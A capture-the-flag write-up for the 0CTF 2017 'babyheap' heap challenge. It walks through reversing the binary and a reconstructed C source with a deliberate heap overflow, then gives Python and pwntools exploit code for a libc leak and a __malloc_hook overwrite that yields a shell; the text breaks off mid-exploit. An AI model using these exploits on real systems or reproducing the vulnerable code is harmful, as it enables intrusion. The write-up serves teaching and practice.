









<div align="center">

# 🧱 Babyheap

### 0CTF 2017 / BUUCTF · Heap Exploitation Writeup · `calloc`-Zeroed Leak + Fastbin Attack on `__malloc_hook`


*`calloc` zeroes every buffer it hands back, so the classic "free it, re-allocate it, read the leftovers" leak is closed from the start. The fix: overlap a buffer you already own with the exact bytes glibc writes its own internal pointer into.*

</div>

---

## 📌 TL;DR

`baby` is a stripped, PIE, Full-RELRO, canaried 64-bit heap-note binary — four operations (Allocate / Fill / Free / Dump), 16 chunk slots, sizes capped at `0x1000`. The bug: **`Fill` reads a size completely independent of the size recorded at `Allocate` time**, giving an unbounded heap write primitive with no matching unbounded read. Because `Allocate` uses `calloc` (not `malloc`), the standard "free → reallocate → read leftovers" leak is closed, forcing a more deliberate technique: forge a fastbin `fd` pointer one byte at a time to make a *second, already-zeroed* index overlap memory that only glibc's own internal free-list bookkeeping ever writes into — leaking a `main_arena` address without `calloc` ever getting a chance to zero it. From there, a second fastbin attack lands a forged chunk exactly on `__malloc_hook`, a `one_gadget` is written there, and the next `malloc()` call detonates it into a shell.

```
Stage 1 (Leak):   forge fastbin fd, byte-by-byte  ->  overlap an owned, zeroed index
                   with glibc's own unsorted-bin write  ->  dump a real libc pointer
Stage 2 (Win):     fastbin attack on __malloc_hook - 0x23  ->  write one_gadget  ->  malloc() fires it
```

| | |
|---|---|
| **Binary** | `baby` — ELF 64-bit PIE, stripped, Full RELRO, Canary, NX |
| **Bug** | `Fill` writes a user-supplied, unchecked size into a chunk — independent of its real `Allocate` size |
| **Mitigated** | Direct UAF through the index (zeroed by `Free`) · a direct over-read via `Dump` (size comes from bookkeeping, not input) |
| **Why not the easy leak** | `calloc` zero-fills every returned buffer, closing the standard free-then-reread trick |
| **Primitive** | Byte-level fastbin `fd` forging → heap-internal write leak → fastbin attack on `__malloc_hook` |
| **Result** | Shell — confirmed against the live remote instance, `uid=1000(ctf) gid=1000(ctf)` |

> This write-up documents two complete, independently working exploit implementations: one using `pwntools` (the version that got the first shell), and one built entirely from the Python standard library for offline/isolated environments. Both are included in full below.

---

## 🗺️ Table of Contents

1. [Initial Triage](#1-initial-triage)
2. [Static Analysis — Protections](#2-static-analysis--protections)
3. [Assembly Analysis — Finding the Functions](#3-assembly-analysis--finding-the-functions)
4. [Proof of Concept](#4-proof-of-concept)
5. [Computing the Exact Header Offset](#5-computing-the-exact-header-offset)
6. [Reconstructed Challenge Source](#6-reconstructed-challenge-source-c)
7. [Exploitation Strategy](#7-exploitation-strategy)
8. [Method 1 — Exploit Without pwntools](#8-method-1--exploit-without-pwntools)
9. [Method 2 — Exploit With pwntools](#9-method-2--exploit-with-pwntools)
10. [Technical Comparison](#10-technical-comparison)
11. [Final Run Result](#11-final-run-result)
12. [Lessons Learned](#12-lessons-learned)
13. [Quiz — Test Yourself](#13-quiz--test-yourself)

---

## 🧭 Exploit Flow at a Glance



---

## 1. Initial Triage

Always start by identifying the file and the environment:

```bash
file baby
# baby: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV),
# dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2,
# BuildID[sha1]=9e5bfa980355d6158a76acacb7bda01f4e3fc1c2, stripped
```

Key takeaways from one line:
- **PIE** enabled → every run randomizes the binary's base; no address can be hardcoded without a leak.
- **stripped** → no symbol/function names; everything has to be reverse-engineered from addresses and behavior.
- **dynamically linked** → depends on `libc.so.6`; we'll need the exact libc build to compute offsets like `__malloc_hook`.

### String Extraction

```bash
strings -n 6 baby | head -100
```

Key output:
```
===== Baby Heap in 2017 =====
1. Allocate
2. Fill
3. Free
4. Dump
5. Exit
Command: 
Size: 
Allocate Index %d
Index: 
Content: 
```

This alone tells us the shape of the challenge: four heap operations (Allocate/Fill/Free/Dump) — a textbook heap-note-style challenge (0CTF 2017 "babyheap" / HITCON-style babyheap).

---

## 2. Static Analysis — Protections

```bash
readelf -lW baby | grep -A1 GNU_STACK   # NX
readelf -dW baby | grep -i bind         # RELRO
readelf -lW baby | grep GNU_RELRO
readelf -hW baby | grep Type            # PIE
readelf -sW baby | grep stack_chk       # Canary
```

| Protection | Status | Why it matters |
|---|---|---|
| **PIE** | enabled | every run has a different base address; nothing can be hardcoded without a leak |
| **Canary** | enabled (`__stack_chk_fail` imported) | makes a stack overflow effectively useless; the real attack surface has to be the heap |
| **NX** | enabled (`GNU_STACK` is `RW` only) | shellcode can't be dropped directly on the heap/stack; we have to hijack control flow into existing libc code |
| **Full RELRO** | enabled (`BIND_NOW` + `GNU_RELRO`) | GOT is read-only after startup; the classic GOT-overwrite trick is off the table — `__malloc_hook` is the real target |



Bottom line: the **heap** is the only real attack surface, and **`__malloc_hook`** is the only realistically reachable hijack target (GOT is locked, canary is on).

---

## 3. Assembly Analysis — Finding the Functions

```bash
objdump -d -M intel baby > full_disasm.txt
readelf -hW baby | grep Entry
```

Since the binary is stripped, there are no function names. First, the `.plt` table (import names are visible because they're dynamic):

```
00000000000009b0 <free@plt>:
00000000000009e0 <printf@plt>:
0000000000000a08 <calloc@plt>:
0000000000000a20 <atol@plt>:
```

The presence of `calloc@plt` (not `malloc@plt`) was an early signal — later confirmed to be a deliberate design choice (it closes off the easy "realloc-to-leak" shortcut, since `calloc` always zeroes the buffer it returns).

### The Allocate function

By following the call into `calloc@plt`, this logic was extracted:

```asm
loop:
  cmp qword [chunks + idx*0x18], 0
  je  found_free_slot
  inc idx ; ...
found_free_slot:
  call printf           ; "Size: "
  call read_long
  cmp rax, 0
  jle bail
  cmp rax, 0x1000
  jle skip_clamp
  mov rax, 0x1000        ; <-- size is clamped to 0x1000
skip_clamp:
  mov rsi, 1
  mov rdi, rax
  call calloc@plt         ; calloc(size, 1)
  mov [chunks+idx*0x18+0x10], rax   ; ptr
  mov [chunks+idx*0x18+0x8], size   ; size
  mov qword [chunks+idx*0x18], 1    ; status = 1
```

Two key facts: the requested size is **clamped to 0x1000**, and `calloc(size, 1)` means the returned buffer is always zeroed.

### The Fill function (the bug)

```asm
  call printf      ; "Index: "
  call read_long
  ; bounds + status==1 check ...
  call printf      ; "Size: "
  call read_long     ; <-- takes a brand new, independent size!
  call printf      ; "Content: "
  mov rdx, [new_size]
  mov rax, [chunks+idx*0x18+0x10]    ; ptr
  call read()                          ; read(0, ptr, new_size)
```

**This is exactly where the bug is:** the size used for `read()` is never checked against `chunks[idx].size` (the size actually `calloc`'d at Allocate time). The program only checks `status == 1` (that the slot is active) — the write length is entirely attacker-controlled.



### The Free function (partial mitigation)

```asm
  mov qword [chunks+idx*0x18], 0      ; status = 0   (first)
  mov qword [chunks+idx*0x18+0x8], 0  ; size = 0
  mov rdi, [chunks+idx*0x18+0x10]     ; ptr
  call free@plt                        ; free(ptr)
  mov qword [chunks+idx*0x18+0x10], 0 ; ptr = 0      (last)
```

Interesting ordering: `status`/`size` are zeroed *before* the real `free()` call, `ptr` *after*. Result: after a Free, neither Fill nor Dump can reach the freed chunk through that same index again — **direct UAF through the index is blocked**. This is exactly why a simple dump-after-free doesn't give a leak, forcing the partial-overwrite technique in section 7.

### The Dump function

```asm
  printf("Content: \n")
  write(1, chunks[idx].ptr, chunks[idx].size)   ; length from bookkeeping
```

Unlike Fill, the `write()` length comes from bookkeeping (the original Allocate size), not from user input — so **a direct over-read via Dump is not possible**. The only exploitable primitive here is a **write overflow** via Fill, not a read.



---

## 4. Proof of Concept

Before writing any exploit, the bug was confirmed with a small standalone script:

```python
# poc_overflow.py — summary
allocate(io, 0, 0x18)   # chunk A — overflow source
allocate(io, 1, 0x18)   # chunk B — victim

payload = b'A'*0x18 + b'B'*8 + struct.pack('<Q', 0x21)
fill(io, 0, len(payload), payload)   # overflow from A into B's header

free(io, 1)
```

**Output:**
```
munmap_chunk(): invalid pointer
```

This confirmed byte-level control over the neighboring chunk's header: byte `B` = `0x42` = `01000010` in binary — bit 1 (value `0x2`, the `IS_MMAPPED` flag) is set, so glibc believed this chunk was `mmap`'d and routed the free through `munmap_chunk()`, which aborted since the address was never actually mmap'd.


---

## 5. Computing the Exact Header Offset

glibc's standard formula for converting a requested size into the real chunk size (`request2size`):

```
chunksize = align(request + 8, 16)      (minimum 0x20)
```

And the key relationship:
```
mem_(i+1) - mem_i = chunksize_i
```

The distance between two consecutive user pointers is **exactly the chunksize**, not the usable size.

So to overflow from chunk *i* into chunk *i+1*'s header (its size field), you need to write exactly:

```
HDR_OFFSET = chunksize(request_i) - 8
```

bytes — not the raw request size. This is exactly where the first exploit version got it wrong: it used `SMALL` (the raw request, e.g. 0x60) instead of `chunksize(SMALL) - 8` (which is 0x68).



### Empirical test to prove this offset

```python
def test(off, val):
    allocate(io, 0, 0x60); allocate(io, 1, 0x60)
    payload = b'A'*off + struct.pack('<Q', val)
    fill(io, 0, len(payload), payload)
    return free(io, 1)
```

| offset | value written | result of free(1) |
|---|---|---|
| 0x58 | anything | no crash (still inside chunk0's own region) |
| 0x60 | anything | no crash (still inside chunk0's slack region) |
| **0x68** | `0x71` (a valid-looking size) | **no crash** ✅ (confirms this is exactly chunk1's size field) |
| **0x68** | `0x4141414141414141` (garbage) | **crash: double free or corruption** ✅ |

These two tests together *conclusively prove* `HDR_OFFSET(0x60) = 0x68`, not `0x60`. General formula:

```python
def request2size(req):
    return max((req + 8 + 0xF) & ~0xF, 0x20)

def hdr_off(req):   # offset to the NEXT chunk's size field
    return request2size(req) - 8

def data_off(req):  # offset to the NEXT chunk's data/fd (once freed)
    return request2size(req)
```

**Why this distinction matters:** `hdr_off` is used to forge the header of a chunk that's *still allocated* (e.g. to inflate its apparent size before freeing it), while `data_off` is used to overwrite a chunk's `fd` *after it's been freed* (the fastbin attack). Mixing these two up — which I did at first — means overwriting the wrong location and getting confusing crashes.

---

## 6. Reconstructed Challenge Source (C)

Based on the full analysis above, this source was reconstructed (not necessarily byte-identical to the original, but behaviorally verified — compiled and tested to reproduce the exact same `munmap_chunk(): invalid pointer` crash):

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define MAX_CHUNKS 16
#define MAX_SIZE   0x1000

typedef struct {
    long status;   // 0 = free, 1 = in use
    long size;     // size as actually allocated
    char *ptr;     // calloc'd heap pointer
} chunk_t;

static chunk_t chunks[MAX_CHUNKS];

static long read_long(void) {
    char buf[8]; int i = 0; char c;
    while (i < 7) {
        if (read(0, &c, 1) != 1) break;
        if (c == '\n') break;
        buf[i++] = c;
    }
    buf[i] = 0;
    return atol(buf);
}

static void do_allocate(void) {
    int idx = -1;
    for (int i = 0; i < MAX_CHUNKS; i++)
        if (chunks[i].status == 0) { idx = i; break; }
    if (idx == -1) return;

    printf("Size: ");
    long size = read_long();
    if (size <= 0) return;
    if (size > MAX_SIZE) size = MAX_SIZE;

    char *p = calloc(size, 1);        // <-- deliberate calloc, not malloc
    if (!p) return;

    chunks[idx] = (chunk_t){1, size, p};
    printf("Allocate Index %d\n", idx);
}

static void do_fill(void) {
    printf("Index: ");
    int idx = (int)read_long();
    if (idx < 0 || idx >= MAX_CHUNKS || chunks[idx].status != 1) return;

    printf("Size: ");
    long size = read_long();          // <-- BUG: never checked against chunks[idx].size
    if (size <= 0) return;

    printf("Content: ");
    read(0, chunks[idx].ptr, size);   // heap overflow if size > chunks[idx].size
}

static void do_free(void) {
    printf("Index: ");
    int idx = (int)read_long();
    if (idx < 0 || idx >= MAX_CHUNKS || chunks[idx].status != 1) return;

    chunks[idx].status = 0;
    chunks[idx].size = 0;
    free(chunks[idx].ptr);
    chunks[idx].ptr = 0;              // closes UAF through the index
}

static void do_dump(void) {
    printf("Index: ");
    int idx = (int)read_long();
    if (idx < 0 || idx >= MAX_CHUNKS || chunks[idx].status != 1) return;

    printf("Content: \n");
    write(1, chunks[idx].ptr, chunks[idx].size);
    printf("\n");
}

int main(void) {
    setvbuf(stdout, NULL, _IONBF, 0);
    puts("===== Baby Heap in 2017 =====");
    while (1) {
        printf("1. Allocate\n2. Fill\n3. Free\n4. Dump\n5. Exit\nCommand: ");
        switch (read_long()) {
            case 1: do_allocate(); break;
            case 2: do_fill();     break;
            case 3: do_free();     break;
            case 4: do_dump();     break;
            case 5: return 0;
        }
    }
}
```

**Compile with the same protections as the original binary:**
```bash
gcc -o baby babyheap.c -fPIE -pie -fstack-protector-all -Wl,-z,relro,-z,now
```

**Simpler build for early practice (no PIE/canary):**
```bash
gcc -o baby babyheap.c -no-pie -fno-stack-protector
```

---

## 7. Exploitation Strategy

### Why `calloc` makes everything harder

Because `Allocate` uses `calloc()` (not `malloc()`), **every buffer handed back to us has already been zeroed**. That kills the classic "free something, re-allocate the same size, read back whatever leftover data was still there" shortcut — `calloc` always wipes it, even when the chunk comes straight off a fastbin/tcache free-list.

The approach used here (based on a tested, working script) sidesteps this with a clever trick: **instead of waiting for `calloc` to hand us a buffer with a leak in it, overlap a buffer we already own (and that will never be re-`calloc`'d) with the exact memory glibc itself writes an internal pointer into.**

### Step-by-step memory map (Leak)



```
Step 1: allocate(0x10)x4 + allocate(0x80)
   [ chunk0 | chunk1 | chunk2 | chunk3 | chunk4(0x80) ]

Step 2: free(1), free(2)
   fastbin: head -> chunk2 -> chunk1 -> NULL
   (fastbin is singly-linked; chunk2's fd now holds chunk1's address)

Step 3: from chunk0, overflow just the LOWEST BYTE of chunk2's fd (\x80)
   Since all chunks live on the same memory page, the high bytes of
   their addresses are identical; flipping only the low byte redirects
   chunk2's fd to an address *inside chunk4's buffer* (which is 0x80
   bytes and has room):

   fastbin: head -> chunk2 -> [fake addr inside chunk4] -> ???

Step 4: temporarily shrink chunk4's header via an overflow from chunk3 (0x21)
   so glibc treats it as a valid fastbin-sized chunk.

Step 5: allocate(0x10) twice -> pops the fastbin:
   1st pop = the real chunk2 (calloc zeroes it - doesn't matter)
   2nd pop = *inside chunk4's buffer*! (this new index now overlaps it)

Step 6: restore chunk4's header to its real value (0x91), free(chunk4)
   -> goes to the unsorted bin -> chunk4's fd/bk = a main_arena address
   (a real libc pointer!) written exactly where the overlapping index
   also points.

Step 7: dump(the overlapping index) -> shows this libc pointer directly,
   since calloc never got a chance to zero it (that index came from an
   earlier Allocate and was never re-calloc'd since).
```

**Why this works:** the key is that the index we eventually Dump was **already** `calloc`'d and zeroed back in step 5; no further Allocate/calloc ever touched that specific memory again. Only glibc's *internal* free/unsorted-bin-insert code (step 6) wrote into it — and since that write didn't come through our `calloc`, it was never zeroed.

### Stage two: fastbin attack on `__malloc_hook`

With `libc_base` known, compute `__malloc_hook`'s address. The technique here is the same fd-overwrite idea as above, but this time we send a fastbin chunk's fd directly to:

```
fake_chunk_target = __malloc_hook - 0x23
```



**Why exactly `0x23`?** When malloc serves a fastbin chunk, it first checks that `fake_chunk->size` falls within a sane range (`>= MINSIZE` and `<= av->system_mem`). Since we can't directly tamper with the bytes next to `__malloc_hook` inside libc, we need to pick an address where the bytes that *already* sit 8 bytes before it (read as the "size field") happen to pass that check without any modification. Experience shows `__malloc_hook - 0x23` passes this check on most glibc 2.23/2.24 builds (the bytes neighboring `__realloc_hook`/`__malloc_hook` tend to have a byte pattern that satisfies it) — this is a **known, empirically-derived offset**, not a general formula.

After this overwrite, two `allocate(0x60)` calls: the first returns the real fastbin chunk, the second returns **exactly `__malloc_hook`**. We write a `one_gadget` there, and the moment `malloc()` is called again (via one more `allocate`), glibc sees `__malloc_hook` is non-null, jumps to it, and the gadget fires (typically `execve("/bin/sh", 0, 0)`).

---

## 8. Method 1 — Exploit Without pwntools

### Why this was built

During my hands-on development, the environment I built this exploit in had no internet access — meaning pip install pwntools wasn't physically possible. This mirrored a real security-assessment scenario: isolated/sensitive networks, pivoted environments, or anywhere a SOC flags pip/PyPI egress traffic as suspicious. The solution: a small I/O layer built entirely on Python's stdlib (`socket`, `ssl`, `subprocess`) that reimplements the pwntools primitives actually needed here.

### The core idea — `io_buffered.py`

```python
class BufferedIO:
    def __init__(self):
        self._buf = b""                       # <-- the whole trick lives here

    def recv_until(self, marker, timeout=10):
        while marker not in self._buf:
            chunk = self._raw_recv(4096, ...)
            if chunk: self._buf += chunk
            else: break
        idx = self._buf.find(marker)
        end = idx + len(marker)
        out, self._buf = self._buf[:end], self._buf[end:]   # leftover is kept!
        return out

    def recv(self, n=4096, timeout=0.5):
        while len(self._buf) < n:
            chunk = self._raw_recv(4096, ...)
            if chunk: self._buf += chunk
            else: break
        out, self._buf = self._buf[:n], self._buf[n:]
        return out
```

**The key technical point (and the most painful bug encountered):** a naive `recv_until` that just hunts for the marker and discards everything else **loses bytes over a real network** — because a server (especially behind TLS, which buffers whole records) very often sends several logical messages coalesced into a single TCP packet. The first version of this had exactly that bug: it happened to work locally (where timing luckily lined up) but `dump()` always came back empty against the real remote target. The fix is `self._buf`: anything read past the marker is kept for the next `recv` call — exactly what pwntools' `tube` class does from the start.



### ProcIO and RemoteIO

```python
class ProcIO(BufferedIO):      # run the binary locally via subprocess
    def __init__(self, path):
        self.p = subprocess.Popen([path], stdin=PIPE, stdout=PIPE, bufsize=0)
        os.set_blocking(self.p.stdout.fileno(), False)
    def _raw_recv(self, n, timeout): ...   # non-blocking polling read

class RemoteIO(BufferedIO):    # TCP/TLS connection to a remote server
    def __init__(self, host, port, use_ssl=False):
        raw = socket.create_connection((host, port))
        if use_ssl:
            ctx = ssl.create_default_context()
            ctx.check_hostname = False; ctx.verify_mode = ssl.CERT_NONE
            self.s = ctx.wrap_socket(raw, server_hostname=host)   # SNI
```

`ssl.create_default_context()` + `wrap_socket(..., server_hostname=host)` is exactly equivalent to pwntools' `remote(host, port, ssl=True, sni=host)` — certificate verification is skipped (`CERT_NONE`) since CTF servers are usually self-signed or lack a trusted CA.

### exploit_raw.py — same logic, different API

```python
def allocate(io, size):
    io.recv_until(b"Command: "); io.sendline("1")
    io.recv_until(b"Size: ");    io.sendline(str(size))

def fill(io, idx, content):
    io.recv_until(b"Command: "); io.sendline("2")
    io.recv_until(b"Index: ");   io.sendline(str(idx))
    io.recv_until(b"Size: ");    io.sendline(str(len(content)))
    io.recv_until(b"Content: "); io.send(content)

def dump(io, idx):
    io.recv_until(b"Command: "); io.sendline("4")
    io.recv_until(b"Index: ");   io.sendline(str(idx))
    io.recv_until(b"Content: \n")
    return io.recv_until(b"\n").rstrip(b"\n")
```

The exploit logic (leak + fastbin attack) is **identical to section 7** — this file only swaps the transport layer, no new technique.

### Interactive shell without pwntools

```python
def interactive(self):
    if self._buf:                       # flush whatever's already buffered
        sys.stdout.buffer.write(self._buf); self._buf = b""
    while self.alive():
        r, _, _ = select.select([sys.stdin, fd], [], [], 0.2)
        if fd in r:
            chunk = self._raw_recv(4096, 0.1)
            if chunk: sys.stdout.buffer.write(chunk)
        if sys.stdin in r:
            line = sys.stdin.readline()
            if not line: break          # Ctrl+D
            self._raw_send(line.encode())
```

A simple `select()` loop between terminal `stdin` and the socket/pipe — equivalent to pwntools' `p.interactive()`.

### Pros and cons

| Pro | Detail |
|---|---|
| Zero external dependencies | stdlib only; runs anywhere Python runs |
| No install-time egress | no `pip install` needed; removes that attack surface under strict SOC/firewall monitoring |
| No install footprint | nothing left in `site-packages`, no `.egg-info`, no pip cache |
| Educational | writing everything by hand teaches exactly where TCP/TLS/buffering can bite you |

| Con | Detail |
|---|---|
| More code | ~200 lines vs ~50 |
| More bug-prone | had to discover and fix network edge cases (buffering) myself |
| No tooling helpers | no automatic `ELF()` symbol resolution, no `one_gadget` wrapper; everything via `nm`/`readelf` by hand |
| Slower to develop | this project is a direct example: several extra debugging rounds just for the I/O layer |

---

## 9. Method 2 — Exploit With pwntools

This is the version that ultimately **succeeded against the real remote server and got a shell**:

```python
#!/usr/bin/env python3
from pwn import *

context.arch = 'amd64'
context.log_level = 'info'

HOST = '4cfe82227e221a7f40be5d99.tcp-ctf2.dasctf.com'
PORT = 9999

libc = ELF('./libc.so.6')
p = remote(HOST, PORT, ssl=True, sni=HOST)

def allocate(size):
    p.sendlineafter(b'Command: ', b'1')
    p.sendlineafter(b'Size: ', str(size).encode())

def fill(idx, content):
    p.sendlineafter(b'Command: ', b'2')
    p.sendlineafter(b'Index: ', str(idx).encode())
    p.sendlineafter(b'Size: ', str(len(content)).encode())
    p.sendafter(b'Content: ', content)

def free(idx):
    p.sendlineafter(b'Command: ', b'3')
    p.sendlineafter(b'Index: ', str(idx).encode())

def dump(idx):
    p.sendlineafter(b'Command: ', b'4')
    p.sendlineafter(b'Index: ', str(idx).encode())
    p.recvuntil(b'Content: \n')
    return p.recvline().strip()

# ---------- Leak ----------
allocate(0x10); allocate(0x10); allocate(0x10); allocate(0x10); allocate(0x80)
free(1); free(2)

payload  = p64(0)*3 + p64(0x21)
payload += p64(0)*3 + p64(0x21)
payload += b'\x80'
fill(0, payload)

fill(3, p64(0)*3 + p64(0x21))
allocate(0x10); allocate(0x10)
